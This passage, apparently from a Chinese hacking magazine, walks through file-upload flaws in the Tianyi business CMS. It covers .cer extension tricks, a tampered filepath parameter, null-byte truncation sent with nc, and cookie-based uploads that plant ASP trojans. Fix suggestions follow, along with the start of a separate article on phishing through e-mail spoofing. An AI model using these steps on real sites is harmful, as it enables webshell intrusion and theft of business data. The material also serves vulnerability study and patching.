

备 PASS 的时候，看到下方还有个上传的地方，如图5点“浏览”，选择一个 asp 文件，再点“上传”，弹出提示框，不让上传，改扩展名为 cer，再点上传，哇！上传成功，地址是：[upload=cer]picture/2005728205348824.cer[/upload]，简直不敢相信自己的眼睛。



急忙在地址中输入 picture/2005728205348824.cer，结果又给偶一个提示：“HTTP 错误 404 找不到文件”。打开天意程序根目录中的 picture 文件夹，里面果然没有这个 cer 文件，那传哪儿去了？重新上传，并用“WinSock Expert”抓包，如图6所示。上传文件的路径是：admin/include/upfile.asp，依次打开 admin/include 文件夹，查看 Upfile.asp 文件源码，发现默认内置一个 Picture 文件夹，上传的 cer 完全是传到这里了。打开一看，哈哈！那个 cer 文件乖乖地在这儿躺着呢！在 IE 中输入地址：http://127.0.0.1/ty51/admin/include/picture/2005728205348824.cer，这次可没让偶看它的脸色，成功执行了一个 Asp 木马。



说到这里，顺便再说一下 4.5 版中的用户上传漏洞。在“产品展示”中随便发布一个产品，并选择一个图片上传。再进入管理产品信息，选择“修改”，在产品图片处，选择“删除现有图片重新上传”，如图7所示，在这里可以上传任意格式的文件。修改完毕回到管理页面，在图片上点右键，查看其属性，找到 ASP 文件的路径，如图8所示，复制 URL 到地址栏中执行，一个 ASP 木马也就这样诞生了。







- 2. 管理员上传漏洞利用

如果管理员的 MD5 设得不是很强大，那就有可能被爆破出来！当得到管理员密码后，就可以大大方方地进入后台了。后台的管理项目更多，当然了，管理员嘛！这里有哪些可利用的地方呢？听偶慢慢道来！

### A、展会信息管理

对展会信息选择“编辑”中的“修改”，在其中的资讯内容里，就有一个上传的地方，这里的上传和用户管理平台中的上传是同一个，可以上传非 asp、asa、aspx 之外的任意文件。

### B、广告服务管理

在“栏目分类广告”内，有两个可利用的地方。

### 其一：“增加广告”中的上传漏洞

增加广告使用的上传文件是 Admin/ads/LinkADD.asp，其上传界面如图9，只允许上传 jpg、gif、swf 格式的文件，但通过“WinSock Expert”抓包后却发现了可以利用的地方，如图10。filepath 值竟然是用户提交的，只要修改这个提交值就可以上传任意文件。





先将数据包保存为文本，然后在 ../../yqlj/picture/ 后加入 jm.asp，asp 后面加一个空格，再用 16 进制编辑软件 WinHex 将这个空格 20 改为 00，再用 nc 提交，就可以在 picture 文件夹中生成 jm.asp 文件。

上面的步骤有点繁琐，这里用老兵的 Dvbbs 上传工具及 Cookie 浏览器来完成。先用老兵的浏览器打开后台，登录后，在浏览器工具栏的 cookies 中就显示了 session 值，如图11所示。启动老兵的 Dvbbs 上传工具，在“提交地址”中输入：http://127.0.0.1/ty51/admin/ads/LinkADD.asp，在上传路径中输入“../../database/jmdcw.asp”，把上传的 asp 保存到 database 目录下。接下来选择一个本地 ASP 文件，最后是复制老兵浏览器中的 cookies 值到这里的 cookie 中，一切完成后，点“上传文件”就可以了。





### 其二：修改广告的上传漏洞

使用的是同一个目录内的 EditLink.asp 文件，这个上传方法就更简单了。对已存在的广告“修改”，打开广告发布信息修改窗口，如图14所示。



因为没有限制上传的格式，所以可选择任意文件上传。比如选择一个 asp 文件到广告位置处，点“修改”上传。这时再看广告列表菜单中的这一广告，如图15所示，图片名称已改为 asp 格式，这个文件位置默认也是保存在 yqlj/picture/ 中。



### C、网站系统管理

## 三、实战测试

啰啰嗦嗦地说了这么多，也不知你所找的这些漏洞，在网络中是否还存在！要实践一下才知道。



图16



图17



图18



图19

## 四、程序修改建议

- A、对于注入漏洞，主要是因为提交的搜索参数过滤不严造成的，可以使用 `replace()` 函数进行过滤。
- B、对于上传漏洞，建议统一上传程序版本，重点修补“栏目分类广告”版块中的上传漏洞。

```asp
dim fileExt
fileExt=lcase(right(file.filename,4))
if fileExt<>".gif" and fileExt<>".jpg" and fileExt<>".swf" then
  response.write "<ERROR>"
  response.end
end if
```

- C、对于备份数据库功能，在保留原有禁用状态下，建议再添加判断提交地址的语句，修改 `admin_backdb.asp` 文件内容。

将下面的语句加在 `if Request.QueryString("action")="back" then` 之前：

```asp
'判断提交是否来自外部
Dim Server_V1,Server_V2
Server_V1=Cstr(Request.ServerVariables("HTTP_REFERER"))
Server_V2=Cstr(Request.ServerVariables("SERVER_NAME"))
If Mid(Server_V1,8,Len(Server_V2))<>Server_V2 Then
  response.write "<script>alert('请不要从外部提交数据!');history.back();</script>"
  response.end
End If
```

如果不使用备份或恢复数据库功能，个人建议删除 `admin/system/admin_backdb.asp` 这个文件，或者将该文件重命名，从而避免备份与恢复数据库功能被他人所用。

## 五、尾声

由于天意商务程序中的文件太多，偶的能力有限，只能介绍这么多！这里也希望各位爱好安全的朋友，对于有漏洞存在的商务主机，不要搞破坏！毕竟这里面存放的都是商务信息，一条信息有可能会影响一个人的一生！真诚希望商务信息网站能够越来越安全！最后声明一下：本文仅用于技术交流，严禁用于非法途径，否则，引发的一切后果自负！

> 【文章中的相关工具：大马高价利用程序、dUp_delphi.exe、桂林老兵 Cookie 浏览器 MyBrowser.exe、WinSock Expert v0.6 已收录在本期光盘】

## 编辑点评：

这篇文章与那篇《从蚂蚁到金库》的思路、方法如出一辙。量的积累会达到质的提升，相信无论是读者还是作者都会从中找到规律，找到某种脚本类型的注入方法。

## 网络钓鱼之 E-MAIL 欺骗注解

疯狗[BCT]

在黑站挂马盗窃行为等等日益盛行的今天，很多用户都已经注意到了杀毒以及网络防护的重要性，而且对于这些盗号的手法已经有了一定的防御意识。而在国外网络钓鱼的潮流慢慢影响国内，所以在此我们就介绍一下关于网络钓鱼攻击的一些手法。网络钓鱼是一种不需要挂马，不需要以软件以及大流量的网站作为传播源，更不需要什么漏洞就可以完成整个攻击过程的方式。现在大体来说，网络钓鱼有几种常用手法：（1）通过利用虚假网站进行钓鱼；（2）利用虚假邮件进行欺骗；（3）利用木马进行钓鱼攻击。而本文将会举例介绍关于 E-Mail 邮件欺骗的手法以及防御。

## E-Mail 地址欺骗

基于现时的 E-Mail 钓鱼邮件来说，大多数都是利用可免费使用的 E-Mail 服务，然后注册一些相近的 E-Mail 账号，借此去诱骗用户相信该邮件来历。但是往往问题在于官方客服或者管理员邮件都与之不符。为了更好地欺骗用户，钓鱼者本身会利用自建的 E-Mail 服务器或者群发软件进行大量垃圾钓鱼信件。以下就是某系统所构造出来的邮件信息（图1）。

一个普通用户通常不会去查看 E-Mail 信息头，所以这样的诱骗方法成功率很高。每种手法也有不一样的缺点。利用近似邮箱进行网络钓鱼攻击，首先用户本身容易发现，而且可信性很低；而利用自行架设的邮件服务器虽然欺骗性很强，但是网络钓鱼前期投入比较大，所以为了在生存期内得到更好的效果，会不断以成千上万的邮件数量进行发送，因为国内不但在反钓鱼，并且也致力于垃圾邮件过滤。

